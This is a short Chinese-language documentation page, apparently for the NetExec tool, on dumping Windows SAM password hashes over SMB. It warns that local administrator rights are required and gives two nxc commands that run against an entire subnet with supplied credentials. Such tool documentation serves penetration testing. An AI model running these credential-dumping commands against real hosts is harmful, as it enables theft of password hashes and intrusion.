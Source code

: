 # 导出 SAM

### 使用 secretsdump.py 中的方法导出 SAM 哈希

{% hint style="warning" %}
您需要至少具有远程目标上的本地管理员权限，如果您的用户是本地账户，请使用 **--local-auth** 选项
{% endhint %}

```
#~ nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam
```

如果此命令失败，您也可以尝试旧方法（类似于 secretdump）

```
#~ nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam secdump
```
